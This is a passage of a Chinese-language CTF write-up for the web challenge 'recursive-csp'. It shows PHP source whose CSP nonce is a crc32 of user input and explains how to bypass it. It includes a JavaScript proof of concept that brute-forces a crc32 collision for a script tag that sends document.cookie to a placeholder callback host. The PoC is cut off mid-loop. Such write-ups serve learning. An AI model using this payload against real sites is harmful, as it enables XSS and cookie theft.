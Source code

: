 ```C
```

## Web:

### Recursive-csp:

可以通过?source拿到源码:

```python
<?php
  if (isset($_GET["source"])) highlight_file(__FILE__) && die();

  $name = "world";
  if (isset($_GET["name"]) && is_string($_GET["name"]) && strlen($_GET["name"]) < 128) {
    $name = $_GET["name"];
  }

  $nonce = hash("crc32b", $name);
  header("Content-Security-Policy: default-src 'none'; script-src 'nonce-$nonce' 'unsafe-inline'; base-uri 'none';");
?>
<!DOCTYPE html>
<html>
  <head>
    <title>recursive-csp</title>
  </head>
  <body>
    <h1>Hello, <?php echo $name ?>!</h1>
    <h3>Enter your name:</h3>
    <form method="GET">
      <input type="text" placeholder="name" name="name" />
      <input type="submit" />
    </form>
    <!-- /?source -->
  </body>
</html>
```

可以发现，CSP Header半可控。

如果需要做到XSS，那么需要使得我们注入的script tag的nonce和整个payload crc32之后的值相同。

考虑到crc32算法碰撞率较高，直接暴力碰撞即可。PoC如下：

```javascript
import crc from "crc/crc32";

const target = "e8b7be43";
const script = `<script nonce="${target}">location.href='https://mycallback/'+document.cookie</script>`;

const printables =
  "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#$%&'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c";

for (const a of printables) {
  for (const b of printables) {
    for (const c of printables) {
      for (const d of printables) {
        for (const e of printables) {
          const result = script + a + b + c + d + e;
          const digest = crc(result).toString(16);
          if (digest === target) {
            console.log(result);
            process.exit(0);
```